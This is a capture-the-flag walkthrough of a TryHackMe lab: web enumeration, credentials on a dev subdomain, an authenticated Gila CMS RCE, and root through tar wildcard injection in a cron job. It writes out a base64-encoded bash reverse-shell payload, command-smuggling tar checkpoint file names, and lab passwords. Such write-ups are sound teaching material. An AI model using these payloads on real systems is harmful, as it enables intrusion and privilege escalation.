## TL;DR

We start with find `dev` hidden subdomain, which gives us credentials. We log with these credentials and exploit auth `RCE` to get reverse shell.

We find the password of `andre` inside `/opt/.password.bak`, and then privilege escalate to root using `*` found in `tar` executed by the cronjob as `root`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                  
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                             
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvfxduhH7oHBPaAYuN66Mf6eL6AJVYqiFAh6Z0gBpD08k+pzxZDtbA3cdniBw3+DHe/uKizsF0vcAqoy8jHEXOOdsOmJEqYXjLJSayzjnPwFcuaVaKOjrlmWIKv6zwurudO9kJjylYksl0F/mRT6ou1+UtE2K7lDDiy4H3CkBZALJvA0q1CNc53sokAUsf5eEh8/t8oL+QWyVhtcbIcRcqUDZ68UcsTd7K7Q1+GbxNa3wftE0xKZ+63nZCVz7AFEfYF++glFsHj5VH2vF+dJMTkV0jB9hpouKPGYmxJK3DjHbHk5jN9KERahvqQhVTYSy2noh9CBuCYv7fE2DsuDIF
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGOVQ0bHJHx9Dpyf9yscggpEywarn6ZXqgKs1UidXeQqyC765WpF63FHmeFP10e8Vd3HTdT3d/T8Nk3Ojt8mbds=
|   256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFUGmaB6zNbqDfDaG52mR3Ku2wYe1jZX/x57d94nxxkC
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 3 disallowed entries  
|_/src/ /themes/ /lib/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `cmess.thm` to my `/etc/hosts`.

### Find dev subdomain and use credentials and vulnerable version to get authenticated RCE

I started with `ffuf`:
```bash
──(agonen㉿kali)-[~/thm/CMesS]
└─$ ffuf -u "http://cmess.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

0                       [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 165ms]
01                      [Status: 200, Size: 4078, Words: 431, Lines: 103, Duration: 653ms]
1                       [Status: 200, Size: 4078, Words: 431, Lines: 103, Duration: 531ms]
1x1                     [Status: 200, Size: 4078, Words: 431, Lines: 103, Duration: 181ms]
About                   [Status: 200, Size: 3339, Words: 372, Lines: 93, Duration: 159ms]
Index                   [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 163ms]
Search                  [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 212ms]
about                   [Status: 200, Size: 3353, Words: 372, Lines: 93, Duration: 202ms]
admin                   [Status: 200, Size: 1580, Words: 377, Lines: 42, Duration: 169ms]
api/experiments/configurations [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 153ms]
api                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 154ms]
api/experiments         [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 158ms]
assets                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 167ms]
author                  [Status: 200, Size: 3590, Words: 419, Lines: 102, Duration: 171ms]
blog                    [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 189ms]
category                [Status: 200, Size: 3862, Words: 522, Lines: 110, Duration: 207ms]
cm                      [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 164ms]
feed                    [Status: 200, Size: 735, Words: 37, Lines: 22, Duration: 172ms]
fm                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 243ms]
index                   [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 214ms]
lib                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 156ms]
log                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 150ms]
login                   [Status: 200, Size: 1580, Words: 377, Lines: 42, Duration: 152ms]
robots.txt              [Status: 200, Size: 65, Words: 5, Lines: 5, Duration: 286ms]
search                  [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 261ms]
sites                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 151ms]
src                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 153ms]
tags                    [Status: 200, Size: 3139, Words: 337, Lines: 85, Duration: 204ms]
tag                     [Status: 200, Size: 3874, Words: 523, Lines: 110, Duration: 336ms]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 158ms]
tmp                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 161ms]
``` 

At `http://cmess.thm/admin/` we can find login portal:



I used `gobuster` to enumerate subdomains:
```bash
┌──(agonen㉿kali)-[~/thm/CMesS]
└─$ gobuster vhost -u 'http://cmess.thm/' --ad -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --xs 302 --xl 3800-4000
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://cmess.thm/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Length:            3945,3954,3981,3985,3988,3846,3874,3967,3984,3989,4000,3819,3835,3873,3931,3977,3979,3884,3898,3936,3937,3975,3987,3995,3869,3889,3893,3926,3998,3949,3974,3996,3808,3815,3892,3918,3802,3845,3915,3932,3934,3942,3961,3968,3863,3899,3946,3976,3860,3875,3880,3897,3916,3922,3944,3843,3855,3882,3888,3904,3935,3956,3864,3947,3994,3997,3840,3847,3912,3913,3950,3966,3980,3999,3861,3885,3925,3943,3907,3910,3849,3870,3919,3921,3927,3958,3902,3821,3829,3850,3879,3938,3963,3983,3816,3820,3837,3851,3901,3924,3952,3986,3857,3862,3900,3933,3827,3810,3824,3842,3886,3908,3911,3929,3809,3848,3871,3920,3960,3823,3856,3891,3965,3971,3992,3993,3803,3831,3872,3955,3969,3970,3982,3991,3844,3883,3887,3930,3964,3990,3957,3818,3854,3896,3917,3973,3806,3813,3814,3838,3868,3876,3890,3951,3804,3805,3812,3822,3894,3905,3914,3953,3825,3817,3836,3841,3858,3878,3972,3811,3826,3866,3877,3903,3923,3940,3941,3832,3839,3939,3948,3962,3830,3833,3852,3865,3867,3895,3959,3978,3881,3906,3909,3853,3800,3801,3807,3928,3828,3834,3859
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
dev.cmess.thm Status: 200 [Size: 934]
```



I added `dev.cmess.thm` to my `/etc/hosts`, this is the website at `http://dev.cmess.thm`



Okay, we got the credentials:
```bash
andre@cmess.thm:KPFTN_f2yxe%
```

After login, this is the dashboard.



We can find the version at the bottom of the page `Gila CMS version 1.10.9 `.

I used `searchsploit` and found authenticated `RCE` exploit for this version
```bash
──(agonen㉿kali)-[~/thm/CMesS]                                                                                                                              
└─$ searchsploit Gila CMS                                                                                                                                    
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path                           
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gila CMS 1.10.9 - Remote Code Execution (RCE) (Authenticated)                                                              | php/webapps/51569.py            
Gila CMS 1.11.8 - 'query' SQL Injection                                                                                    | php/webapps/48590.py            
Gila CMS 1.9.1 - Cross-Site Scripting                                                                                      | php/webapps/46557.txt           
Gila CMS 2.0.0 - Remote Code Execution (Unauthenticated)                                                                   | php/webapps/49412.py            
Gila CMS < 1.11.1 - Local File Inclusion                                                                                   | multiple/webapps/47407.txt      
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results                                               
```



Okay, I used the exploit:



and we got our reverse shell

### Find andre password inside /opt/.password.bak

Using linpeas we can find the file `/opt/.password.bak`. In such CTF challenges, you should always check whether there is something in the `/opt` folder.



I read it:
```bash
www-data@cmess:/opt$ cat .password.bak 
andres backup password
UQfsdCB7aAP6
```

We can use the password we find here to change user to `andre`, and grab the user flag:



```bash
www-data@cmess:/opt$ su andre # UQfsdCB7aAP6
Password: 
andre@cmess:/opt$ cd ~
andre@cmess:~$ cat user.txt 
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```

### Privilege Escalation to Root using tar on cronjob and *

I checked for cronjobs, we can see the last command:
```bash
andre@cmess:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```



This is being executed every 2 minutes:
```bash
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

The vulnerability is that it uses `*`, and we control the folder. based on [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)
> tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

we can create two files that will be the flags:
```bash
andre@cmess:~/backup$ touch './--checkpoint=1'
andre@cmess:~/backup$ touch './--checkpoint-action=exec=sh rev_shell.sh'
andre@cmess:~/backup$ echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDMgMD4mMSkgJg==|base64 -d|bash' > rev_shell.sh
andre@cmess:~/backup$ chmod +x rev_shell.sh 
```

I pasted the payload from penelope, now we can wait



and grab the root flag:
```bash
root@cmess:/home/andre/backup# cd /root
root@cmess:~# cat root.txt 
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```




